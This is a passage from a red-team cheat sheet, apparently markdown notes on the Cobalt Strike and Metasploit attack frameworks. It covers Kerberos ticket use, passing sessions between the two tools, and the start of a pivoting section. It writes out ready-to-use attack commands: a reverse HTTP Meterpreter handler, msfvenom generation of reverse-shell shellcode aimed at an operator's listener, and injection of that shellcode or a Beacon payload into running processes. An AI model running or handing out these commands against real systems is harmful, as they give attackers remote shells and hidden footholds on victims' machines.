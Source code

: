 **Load ticket**

```
kerberos_ticket_use <FILE TO TICKET>
```

**Use ccache file**

```
kerberos_ccache_use
```

### Session passing

#### Cobalt strike --> Metasploit

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set LHOST eth0
set LPORT 8080
exploit -j
```

* Go to Listeners --> Add and set the Payload to Foreign HTTP. Set the Host, the Port to 8080, Set the name to Metasploit and click Save.

```
spawn metasploit
```

#### Cobalt strike --> Metasploit shellcode inside process

```
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=<IP> LPORT=8080 -f raw -o /tmp/msf.bin
execute C:\Windows\System32\notepad.exe
ps
shinject <PID> x64 msf.bin
```

#### Metasploit --> Cobalt strike

* Go to Attacks --> Packages --> Windows Executable (S), select the desired listener, select Raw as the Output type and select Use x64 payload.

```
use post/windows/manage/shellcode_inject
set SESSION 1
set SHELLCODE /tmp/beacon.bin
run
```

### Pivoting

#### Socksproxy

**Enable Socksproxy**
